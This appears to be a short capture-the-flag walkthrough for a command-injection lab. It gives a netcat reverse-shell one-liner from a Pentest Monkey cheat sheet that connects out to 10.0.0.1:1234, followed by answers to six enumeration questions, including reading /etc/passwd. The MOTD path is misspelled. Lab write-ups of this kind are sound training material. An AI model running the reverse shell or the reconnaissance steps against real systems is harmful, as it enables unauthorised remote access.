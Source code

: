 

![](./images/evil.png)

Use the below reverse shell (Pentest Monkey)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] if you want to work on your own terminal



`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

#1 What strange text file is in the website root directory?

```
ls
```

#2 How many non-root/non-service/non-daemon users are there?

```
ls /home
```

#3 What user is this app running as?

```
whoami
```

#4 What is the user's shell set as?
```
cat /etc/passwd
```

#5 What version of Ubuntu is running?
```
lsb_release -a
```

#6 Print out the MOTD.  What favorite beverage is shown?

```
cat /etc/update-mot.d/00-header
```